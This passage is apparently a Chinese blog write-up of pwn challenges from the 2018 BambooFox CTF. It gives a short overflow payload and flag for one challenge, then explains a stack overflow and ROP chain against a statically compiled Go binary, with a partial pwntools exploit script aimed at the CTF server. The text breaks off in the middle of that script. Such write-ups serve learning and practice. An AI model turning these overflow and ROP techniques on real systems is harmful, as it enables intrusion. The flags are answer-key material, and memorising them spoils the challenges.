 ```yaml
---
title: BAMBOOFOX CTF 部分 writeup
tags:
  - CTF
date: 2018/2/10
---
```


网址:[http://ctf.bamboofox.cs.nctu.edu.tw/challenges](http://ctf.bamboofox.cs.nctu.edu.tw/challenges)

听说是他们的新生赛,毕竟我已经好几个月没打CTF了,赶紧去练习练习.(然后发现一堆不会做.....

## pwn

### water-impossible 50

简单的变量覆盖.

```
pay = 'a'*28+p64(6666)
```

flag:`BAMBOOFOX{Pwnnnnnnnning_1s_sImP13_and_Int3r3stIngggg}`

### infant-gogogo 180

突然感觉难度陡增有木有,居然上了一道用golang写的.好在溢出非常暴力,不是很难(不知道是不是正解

上来就让你输入,测试了一下有溢出,溢出长度为0x100.然后能够覆盖ret地址,接着就能rop了.

程序是静态编译,本能想着去找ropchain,然而无果.只能自己写了.无奈

ROPgadget搜了一下,连续的pop没有,不过倒是有很多`add rsp,xx;ret`的可以代替,不知道是不是golang编译的特点.

因为是静态编译,就没有plt之类的了.从他程序里面的函数找,我找到两个好用的.一个是`runtime_read`,作用相当于read.另一个是`syscall_Syscall`,相当于能够执行任意的syscall.

exp:

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 0

if local:
	cn = process('./infant-gogogo')
	bin = ELF('./infant-gogogo')
else:
	cn = remote('bamboofox.cs.nctu.edu.tw', 58795)


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

runtime_read = 0x0000000000452140
main = 0x00000000004520A0
add_rsp_ret=0x0000000000401762#0x000000000040a520 : add rsp, 0x20 ; ret
syscall_Syscall = 0x0000000000462980
cn.recv()

pay = 'a'*0x100
pay += p64(runtime_read) +p64(add_rsp_ret) +p64(0)+p64(0x54fff0)+p64(0x10)+p64(0)
```